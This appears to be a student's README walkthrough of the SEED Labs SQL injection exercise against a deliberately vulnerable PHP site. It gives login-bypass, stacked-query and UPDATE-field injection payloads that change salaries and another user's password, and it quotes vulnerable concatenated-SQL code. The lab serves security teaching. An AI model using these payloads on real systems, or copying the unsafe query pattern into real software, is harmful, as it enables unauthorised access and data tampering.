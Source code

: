 # SQL_INJECTION
###Task 1: 	Log in MYSQL:

	
  
    mysql -u root -pseedubuntu;
    
		mysql> use Users;
    
		mysql> show tables;
	
//Use such a SQL query:
		
    select * from credential where Name='Alice';



![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%201.png)
 
 
 ###Task 2: 
 -->Task 2.1
    
    .USERNAME: "Admin' #"
	  
    .PASSWORD: "xyz" (here is password is optional)


//We will result in SQL Query

		
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password 
    FROM credential WHERE name='Admin' #' && password='xyz'
 
 --> Task 2.2: Write Code on Terminator in Seed Lab:
	 
    
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	
  
    
    	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4- Run this location on browser
    
    
![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%202.1.png)



--> Task 2.3: Use the Inject statement to append a row to current database:
	

	INSERT INTO credential (name,eid) VALUES('Rubia', '123');

	After row inserted, go to browser and input as:

	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"

	.PASSWORD: "" (blank field)
	



![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%202.3.png)



###Task 3
use link

http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php


--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz, 
	2- Then edit the link to browser 
	http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	
	3- Update Phone Number as ', Salary=1000000 and save.

--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
	
	2- Update Phone Number: ',Salary=0 and remaining unchanges


![alt text](https://github.com/RubiaQayoum/SQL_INJECTION/blob/main/task%203.2.png)



//Login as Alice
		
		Assume login as Boby and keep Alice login too. Open Alice profile edit


Update Phone Number: ', Salary=1 where name='Boby' #


--> Task 3.3: 	We're login as Boby but change password of Alice

	$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET 	nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();
	
	
	
	
